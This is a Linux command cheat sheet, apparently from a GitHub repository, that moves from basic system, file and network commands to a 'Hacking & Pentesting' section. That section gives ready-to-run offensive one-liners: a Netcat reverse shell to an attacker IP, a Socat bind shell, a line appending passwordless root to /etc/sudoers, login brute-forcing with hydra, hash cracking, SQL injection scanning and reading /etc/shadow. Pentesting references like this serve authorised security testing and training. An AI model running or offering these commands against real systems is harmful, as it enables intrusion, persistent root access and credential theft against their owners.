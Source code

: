 ### Basic Linux Commands

### System Information
- `whoami` – Display the current user
- `id` – Show user and group IDs
- `uname -a` – Show system information
- `uptime` – Display system uptime
- `df -h` – Show disk usage
- `du -sh *` – Show directory sizes
- `free -m` – Show memory usage
- `ps aux` – List running processes
- `top` – Monitor system processes
- `kill -9 <PID>` – Kill a process by PID
- `crontab -l` – List scheduled cron jobs
- `history` – Show command history
- `echo $SHELL` – Show default shell
- `lsb_release -a` – Show OS details

### File & Directory Management
- `ls -lah` – List files with details
- `cd /path/to/directory` – Change directory
- `pwd` – Print working directory
- `mkdir newfolder` – Create a new folder
- `rm -rf folder` – Delete a folder recursively
- `cp file1 file2` – Copy files
- `mv oldname newname` – Rename or move files
- `find / -name "*.conf"` – Find config files
- `grep -r "password" /etc/` – Search for passwords in files
- `cat file.txt` – View file content
- `less file.txt` – View file content with scrolling

### User & Permission Management
- `adduser username` – Add a new user
- `passwd username` – Change user password
- `su - username` – Switch user
- `groups username` – Show user groups
- `chmod 777 file` – Change file permissions
- `chown user:group file` – Change file ownership
- `sudo -l` – List sudo privileges
- `visudo` – Edit sudoers file

### Networking & Connectivity
- `ifconfig` or `ip a` – Show network interfaces
- `ping -c 4 <target>` – Check host availability
- `traceroute <target>` – Trace packet route
- `netstat -tulnp` – Show open ports
- `ss -tulnp` – Alternative to netstat
- `arp -a` – Show ARP table
- `nc -lvnp <port>` – Open a Netcat listener
- `curl -I <URL>` – Get HTTP headers
- `wget <URL>` – Download files
- `scp user@host:/file /local/path` – Copy files via SSH
- `rsync -avz user@host:/dir /local/dir` – Sync directories over SSH

---

### Hacking & Pentesting Commands

### Reconnaissance & Scanning
- `nmap -sV -A <target>` – Scan open ports with service detection
- `nmap -Pn -p- <target>` – Full port scan ignoring ping
- `nmap --script=vuln <target>` – Scan for vulnerabilities
- `nikto -h <target>` – Scan web servers for vulnerabilities
- `whatweb <URL>` – Identify web technologies
- `dnsenum <domain>` – Enumerate DNS records
- `dig @8.8.8.8 <domain>` – Get DNS info
- `whois <domain>` – Get domain registration details
- `theHarvester -d <domain> -l 500 -b google` – Gather emails & subdomains
- `sublist3r -d <domain>` – Find subdomains

### Password Cracking & Exploitation
- `hydra -L users.txt -P passwords.txt <service>://<target>` – Brute-force login
- `john --wordlist=rockyou.txt hash.txt` – Crack hashes with John
- `hashcat -m 0 hash.txt rockyou.txt` – Crack hashes with Hashcat
- `sqlmap -u <URL> --dbs` – Test SQL injection
- `searchsploit <keyword>` – Find exploits in Exploit-DB
- `msfconsole` – Open Metasploit Framework
- `exploit/multi/handler` – Start Metasploit reverse shell listener
- `evil-winrm -i <target> -u <user> -p <password>` – Exploit Windows via WinRM
- `smbclient -L //<target>` – List SMB shares
- `enum4linux -a <target>` – Enumerate Windows shares & users

### Reverse Shell & Privilege Escalation
- `nc -e /bin/bash <attacker-ip> <port>` – Reverse shell (Netcat)
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` – Upgrade shell to TTY
- `echo 'user ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers` – Grant root access
- `find / -perm -u=s -type f 2>/dev/null` – Find SUID binaries
- `sudo -l` – List sudo permissions
- `getcap -r / 2>/dev/null` – Find files with special capabilities
- `linpeas.sh` – Automated privilege escalation scan
- `pspy64` – Monitor running processes for privilege escalation
- `gdb -q ./vulnerable` – Debug binaries for exploitation
- `strings ./binary | grep password` – Find sensitive data in binaries

### File & Directory Manipulation
- `tar -czf archive.tar.gz /path/to/files` – Compress files
- `unzip archive.zip -d /path/to/extract/` – Extract files
- `mount /dev/sdb1 /mnt/usb` – Mount USB drive
- `dd if=/dev/sda of=/mnt/backup.img` – Create disk image
- `cat /etc/passwd` – View system users
- `cat /etc/shadow` – View password hashes (requires root)

### Miscellaneous Hacking & Automation
- `socat TCP4-LISTEN:<port>,fork EXEC:/bin/bash` – Bind shell with Socat
- `base64 -d < file` – Decode Base64
- `xxd -r -p hex.txt > binary` – Convert hex to binary
- `crunch 8 10 abc123 -o wordlist.txt` – Generate wordlists
- `tmux` – Open a terminal multiplexer
- `proxychains nmap -sT -Pn <target>` – Use proxies for scans
- `torify curl <URL>` – Browse via Tor
- `exiftool image.jpg` – Extract metadata from images
